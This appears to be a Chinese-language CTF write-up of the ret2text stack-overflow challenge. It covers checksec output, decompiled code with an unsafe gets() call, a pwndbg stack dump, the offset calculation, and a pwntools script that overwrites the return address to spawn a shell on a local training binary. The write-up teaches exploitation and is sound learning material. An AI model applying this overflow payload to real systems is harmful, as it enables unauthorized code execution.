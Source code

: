 ```yaml
---
title: Pwn 栈溢出
create_at: 2024-02-08T12:08:10Z
labels: 
  - ctf
comments: 0
locked: false
---
```


## 栈溢出题目
### ret2text
[下载地址](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2text/bamboofox-ret2text/ret2text)  
拿到程序首先使用 checksec 检查这个程序的一些信息，运行 `checksec ret2text` 我们会得到如下信息：

```bash
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
可以看出这个程序是 32 位程序，仅开了栈不可执行保护

接着使用 32 位 IDA Pro 打开程序：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("There is something amazing here, do you know anything?");
  gets(s);
  printf("Maybe I will tell you next time !");
  return 0;
}
```
可以看到 `gets` 函数绝对会导致栈溢出的问题，接着我们查看一下这个程序里面的字符串，使用 `Shift + F12` 即可进入 String 窗口，在 Strings 窗口我们能看到：

`.rodata:08048763	00000008	C	/bin/sh`

这样一条数据，双击，看到这个字段前面的标识符为 `command`，用 `Alt + T` 搜索得到 `secure` 这个函数中包含 `/bin/sh` ，双击查看这个字符位置：

`.text:0804863A                 mov     dword ptr [esp], offset command ; "/bin/sh"`

可以看到其位置为 0804863A，我们在栈溢出的时候返回这个位置就行

接着用 pwndbg 来运行这个程序

`gdb ret2text`

在调试界面先为 main 函数打上断点：`b main`，接着使用 `r` 命令来执行程序，程序会在 main 函数的位置停止，接着我们使用 `n` 一步步往下执行，直到我们可以输入，随便输入数据，用 stack 40 来查看栈内存放的数据：

```bash
00:0000│ esp 0xffffd370 —▸ 0xffffd38c ◂— 'AAAA'
01:0004│-084 0xffffd374 ◂— 0x0
02:0008│-080 0xffffd378 ◂— 0x1
03:000c│-07c 0xffffd37c ◂— 0x0
04:0010│-078 0xffffd380 —▸ 0xf7fc4540 (__kernel_vsyscall) ◂— push ecx
05:0014│-074 0xffffd384 ◂— 0xffffffff
06:0018│-070 0xffffd388 —▸ 0x8048034 ◂— push es
07:001c│ eax 0xffffd38c ◂— 'AAAA'
08:0020│-068 0xffffd390 —▸ 0xf7ffd600 (_rtld_global+1504) ◂— 0x3
09:0024│-064 0xffffd394 ◂— 0x20 /* ' ' */
0a:0028│-060 0xffffd398 ◂— 0x0
0b:002c│-05c 0xffffd39c —▸ 0xffffd554 ◂— 0x20 /* ' ' */
0c:0030│-058 0xffffd3a0 ◂— 0x0
0d:0034│-054 0xffffd3a4 ◂— 0x0
0e:0038│-050 0xffffd3a8 ◂— 0x1000000
0f:003c│-04c 0xffffd3ac ◂— 9 /* '\t' */
10:0040│-048 0xffffd3b0 —▸ 0xf7fc4540 (__kernel_vsyscall) ◂— push ecx
11:0044│-044 0xffffd3b4 ◂— 0x0
12:0048│-040 0xffffd3b8 —▸ 0xf7c184be ◂— '_dl_audit_preinit'
13:004c│-03c 0xffffd3bc —▸ 0xf7e2a054 (_dl_audit_preinit@got.plt) —▸ 0xf7fdde10 (_dl_audit_preinit) ◂— endbr32
14:0050│-038 0xffffd3c0 —▸ 0xf7fbe4a0 —▸ 0xf7c00000 ◂— 0x464c457f
15:0054│-034 0xffffd3c4 —▸ 0xf7fd6f90 (_dl_fixup+240) ◂— mov edi, eax
16:0058│-030 0xffffd3c8 —▸ 0xf7c184be ◂— '_dl_audit_preinit'
17:005c│-02c 0xffffd3cc —▸ 0xf7fbe4a0 —▸ 0xf7c00000 ◂— 0x464c457f
18:0060│-028 0xffffd3d0 —▸ 0xffffd410 —▸ 0xf7e2a000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
19:0064│-024 0xffffd3d4 —▸ 0xf7fbe66c —▸ 0xf7ffdba0 —▸ 0xf7fbe780 —▸ 0xf7ffda40 ◂— ...
1a:0068│-020 0xffffd3d8 —▸ 0xf7fbeb10 —▸ 0xf7c1acc6 ◂— 'GLIBC_PRIVATE'
1b:006c│-01c 0xffffd3dc ◂— 0x1
1c:0070│-018 0xffffd3e0 ◂— 0x1
1d:0074│-014 0xffffd3e4 ◂— 0x0
1e:0078│-010 0xffffd3e8 —▸ 0xf7e2a000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
1f:007c│-00c 0xffffd3ec —▸ 0xf7d20f9b (__init_misc+43) ◂— add esp, 0x10
20:0080│-008 0xffffd3f0 —▸ 0xffffd627 ◂— '/home/ttdly/pwn/ret2text/ret2text'
21:0084│-004 0xffffd3f4 ◂— 0x70 /* 'p' */
22:0088│ ebp 0xffffd3f8 —▸ 0xf7ffd020 (_rtld_global) —▸ 0xf7ffda40 ◂— 0x0
23:008c│+004 0xffffd3fc —▸ 0xf7c21519 (__libc_start_call_main+121) ◂— add esp, 0x10
24:0090│+008 0xffffd400 ◂— 0x1
25:0094│+00c 0xffffd404 —▸ 0xffffd4b4 —▸ 0xffffd627 ◂— '/home/ttdly/pwn/ret2text/ret2text'
26:0098│+010 0xffffd408 —▸ 0xffffd4bc —▸ 0xffffd649 ◂— 'SHELL=/bin/bash'
27:009c│+014 0xffffd40c —▸ 0xffffd420 —▸ 0xf7e2a000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
```
可以看到我们输入的字符存放在 `0xffffd38c` 这个地址，而 ebp 在 `0xffffd3f8` 的位置，这时我们需要向栈内填充 `0x3f8 - 0x38c = 0x6c` 个字符，如果想要覆盖调用 main 函数地址位置，我们还需要额外填充 4 个字节，所以最终向栈内写入的字符数为 `0x6c+4`

大概流程我们已经知道了，接着我们来编写攻击脚本：
```python
from pwn import *

local = process("./ret2text");
target = 0x0804863A # system("/bin/sh") 的位置
payload = b"A" * (0x6c + 4) + p32(target);
local.send(payload);
local.interactive();
```
使用 python 运行这个脚本之后，我们可以看到终端已经进入了本机的 shell 界面，攻击成功。这个时候我们可以通过 shell 来得到我们的 flag。
